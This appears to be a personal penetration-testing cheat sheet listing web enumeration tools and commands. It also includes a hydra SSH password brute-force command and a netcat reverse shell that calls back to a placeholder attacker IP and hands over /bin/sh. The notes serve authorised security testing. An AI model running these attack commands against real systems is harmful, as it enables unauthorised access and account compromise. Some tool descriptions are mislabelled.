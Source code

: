 All commands and links i need to sort.  

Good high level guide on how to pentest. https://thehackernews.com/2024/10/guide-ultimate-pentest-checklist-for.html?m=1  
Recon  
Find Vuln  
Exploit  
Evlate   
Repeat  
ZAP better then burp  



## Web Enumeration ##
wappalyzer - good plugin for looking at website platforms or software. add this to my hacking soe  

crt.sh - website to search for subdomains.  

curl -u http://website - display website header and info  

whatweb www.site.com - good for looking at website platforms or software.

dirsearch -u http://website - enumerates subdirectories  
dirb http://website - enumerates subdirectories  
ffuf -w /usr/share/wordlists/dirbuster/:FUZZ -u http://website/FUZZ - enumerates subdirectories  
gobuster dir -u http://website -w /usr/share/seclist - enumerates subdirectories  
gobuster dns -d http://website -w dns Jhaddix.txt - enumerates subdirectories  
dirbuster is a gui version of the above tools 

sublist3r -d http://website - enumerates subdirectories  (add -t 10 for multithread or faster search)

nikto -h www.site.com  - scans website for platforms or software versions. also mentions where attacks could be possible. 

wpscan --url http://website --enumerate  u for user, p for plugins, t for themes  
wpscan --url http://website --enumerate  vp,vt --plugins-detection aggressive (need api token)  

amass enum -d domain --passive - gives XXXX  

hydra -l root -P /usr/share/wordlist ssh://ip -t 4 -V - does a password attack on ssh client.  

python3 -m http.server 80 -- Start at adhoc webserver, good for quickly sharing files.    

Simple reverse shell - Attacker machine sets up listener via nc -lvp 1337.  Target machine needs to call via nc <ipofattacker> -e /bin/sh 1337.   

## Online Tools ##
https://gchq.github.io/CyberChef/  -  
https://www.exploit-db.com/ - for manual exploit commands against vulnerabilities  
 
